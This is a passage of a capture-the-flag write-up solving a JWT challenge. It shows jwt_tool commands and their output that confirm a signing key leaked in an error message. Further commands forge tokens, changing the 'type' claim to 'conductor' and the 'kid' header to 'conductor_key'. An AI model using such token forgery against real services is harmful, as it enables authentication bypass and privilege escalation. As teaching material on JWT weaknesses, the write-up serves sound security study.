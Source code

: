 {% endcode %}

## Solution

Putting the pieces together:

-   We have a JWT with a payload value of `passenger`, which we need to change to `conductor`
-   An error message revealed the JWT secret: `a_boring_passenger_signing_key_?`

### JWT Tampering

Looks like a [JWT attack](https://portswigger.net/web-security/jwt) - let's see if the key is correct.

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -C -p a_boring_passenger_signing_key_?

Password provided, checking if valid...
[+] CORRECT key found:
a_boring_passenger_signing_key_?
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "a_boring_passenger_signing_key_?"
```

{% endcode %}

It is! `jwt_tool` even gave us a command to forge our own token. Let's do that now, setting the payload claim to `conductor`.

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -S hs256 -p a_boring_passenger_signing_key_? -I -pc type -pv conductor

jwttool_88a3bbfda9d5113a694dfd1b61799a77 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoiY29uZHVjdG9yIn0.77TMRvz8VigLQ_7XOYV5G9gs24Wr70SmfRqTrHvDq_I
```

{% endcode %}

I swapped the cookies, but it didn't work. Maybe we need to change the `kid` header value to `conductor_key` as well 💡

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -S hs256 -p a_boring_passenger_signing_key_? -I -pc type -pv conductor -hc kid -hv conductor_key

jwttool_c8c71c7208443249b969aeecbeb77c81 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsImtpZCI6ImNvbmR1Y3Rvcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoiY29uZHVjdG9yIn0.N8fB2NrjUYWvipOOtn1jQrn7u1XaqEGTEppgbyKBIHE
```
